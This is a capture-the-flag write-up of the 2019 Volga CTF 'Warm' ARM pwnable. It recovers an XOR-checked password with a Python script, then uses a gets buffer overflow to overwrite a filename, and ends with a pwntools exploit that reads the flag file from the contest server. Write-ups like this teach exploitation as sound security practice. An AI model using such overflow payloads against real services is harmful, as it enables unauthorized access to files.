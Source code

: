 # Warm

This is a 100-point pwnable problem from the 2019 Volga CTF Quals.


# Reconnaissance


### The problem statement

```
How fast can you sove it? nc warm.q.2019.volgactf.ru 443
```

It's a 32-bit ARM executable with all protections enabled.

Opening up in IDA Pro gives a helpful tip:
```
ARM AND THUMB MODE SWITCH INSTRUCTIONS

This processor has two instruction encodings: ARM and THUMB.
IDA allows to specify the encoding mode for every single instruction.
For this IDA uses a virtual register T. If its value is zero, then
the ARM mode is used, otherwise the THUMB mode is used.
You can change the value of the register T using
the 'change segment register value' command
(the canonical hotkey is Alt-G)
```

So it looks like I'm working with THUMB mode for exploitation?

Running it on the server shows I get prompted repeatedly for a password. The looping suggests that I leak an address...

I found a function that seems to check the password by browsing around in IDA, but I'm not so familiar with ARM assembly instructions so I can't read the assembly directly. As a result I tried decompiling with Ghidra:

```
if (sVar1 < 0x10) {
  uVar2 = 1;
}
else {
  if (((((*pbParm1 == 0x76) && ((pbParm1[1] ^ *pbParm1) == 0x4e)) &&
       ((pbParm1[2] ^ pbParm1[1]) == 0x1e)) &&
      ((((pbParm1[3] ^ pbParm1[2]) == 0x15 && ((pbParm1[4] ^ pbParm1[3]) == 0x5e)) &&
       (((pbParm1[5] ^ pbParm1[4]) == 0x1c &&
        (((pbParm1[6] ^ pbParm1[5]) == 0x21 && ((pbParm1[7] ^ pbParm1[6]) == 1)))))))) &&
     (((pbParm1[8] ^ pbParm1[7]) == 0x34 &&
      ((((((pbParm1[9] ^ pbParm1[8]) == 7 && ((pbParm1[10] ^ pbParm1[9]) == 0x35)) &&
         ((pbParm1[0xb] ^ pbParm1[10]) == 0x11)) &&
        (((pbParm1[0xc] ^ pbParm1[0xb]) == 0x37 && ((pbParm1[0xd] ^ pbParm1[0xc]) == 0x3c)))) &&
       (((pbParm1[0xe] ^ pbParm1[0xd]) == 0x72 && ((pbParm1[0xf] ^ pbParm1[0xe]) == 0x47)))))))) {
    uVar2 = 0;
  }
  else {
    uVar2 = 2;
  }
}
return uVar2;
```

This looks great! I should be able to reverse engineer this logic to get the password back.

A quick Python script does the trick:
```
ct = [0x76,0x4e,0x1e,0x15,0x5e,0x1c,0x21,0x01,0x34,0x07,0x35,0x11,0x37,0x3c,0x72,0x47]
result = 0x76
print(chr(result))
for i in range(1,16):
	print(chr(ct[i]^result))
	result = ct[i]^result
```
That gives me `v8&3mqPQebWFqM?x`. Now the program prompts:

`Seek file with something more sacred!`

So the password works, great! Next reversing step.
Wait, that's the end of the file, the file that gets opened contains the string `Seek file with something more sacred!`.

Okay, I get it, `gets` gets called to read in the password. So, if I enter the incorrect password, the program loops back to reading the password in again, but if I enter the correct one, I can follow it with an arbitrary number of characters and execute a buffer overflow.

Example:

```
Hi there! I've been waiting for your password!
v8&3mqPQebWFqM?xAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Unable to open AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA file!
Hi there! I've been waiting for your password!
```

Okay, I just need to get it to open a "flag" file. Quick detour to using `pwnlib`.

A new string:
`v8&3mqPQebWFqM?xaBCDEFGHbBCDEFGHcBCDEFGHdBCDEFGHeBCDEFGHfBCDEFGHgBCDEFGHhBCDEFGHiBCDEFGHjBCDEFGHkBCDEFGHlBCDEFGHmBCDEFGHnBCDEFGHoBCDEFGHpBCDEFGHqBCDEFGHrBCDEFGHsBCDEFGHtBCDEFGH`
yields
`Unable to open EFGHlBCDEFGHmBCDEFGHnBCDEFGHoBCD file!`

Now I send
`v8&3mqPQebWFqM?xaBCDEFGHbBCDEFGHcBCDEFGHdBCDEFGHeBCDEFGHfBCDEFGHgBCDEFGHhBCDEFGHiBCDEFGHjBCDEFGHkBCDflag`

which gives me
`Seek file with something more sacred!`

What else might be in that directory?

`v8&3mqPQebWFqM?xaBCDEFGHbBCDEFGHcBCDEFGHdBCDEFGHeBCDEFGHfBCDEFGHgBCDEFGHhBCDEFGHiBCDEFGHjBCDEFGHkBCDwarm`

gives me the executable, that's pretty cool.

Well, how about "sacred"?

`v8&3mqPQebWFqM?xaBCDEFGHbBCDEFGHcBCDEFGHdBCDEFGHeBCDEFGHfBCDEFGHgBCDEFGHhBCDEFGHiBCDEFGHjBCDEFGHkBCDsacred`

yields

`VolgaCTF{1_h0pe_ur_wARM_up_a_1ittle}`

That works for me! It's straying towards "guessing" problem territory, but the guess wasn't too difficult.

Here's the exploit code:

```
#exploit-warm.py

from pwn import *
from time import sleep

p = remote('warm.q.2019.volgactf.ru',443)

payload = ''
payload += 'v8&3mqPQebWFqM?x'
for i in range(0, 10):
	payload += chr(0x61 + i) + 'BCDEFGH'
payload += 'kBCD'
payload += 'sacred'
payload += '\n'
#log.info(payload)
p.send(payload)
p.interactive()
```

### Comparison to other approaches

Every write-up on CTF Time uses Ghidra and guesses `sacred`. It seems that I took the standard approach.
